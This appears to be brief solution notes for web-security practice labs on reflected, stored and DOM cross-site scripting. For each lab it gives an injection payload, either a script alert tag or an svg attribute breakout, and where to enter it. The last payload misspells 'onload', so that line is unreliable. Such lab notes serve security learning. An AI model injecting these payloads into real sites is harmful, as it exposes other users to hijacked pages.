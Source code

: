 # Labs
### Reflected XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in search box.

### Stored XSS into HTML context with nothing encoded
```<script>alert(1)</script>``` in comment section.

### DOM XSS in document.write sink using source location.search
<img width="500" src="https://user-images.githubusercontent.com/68285613/146972401-767cfebe-24de-403c-b447-e028a8b35f77.png">

``` "><svg onlond=alert(1)>``` in search box.

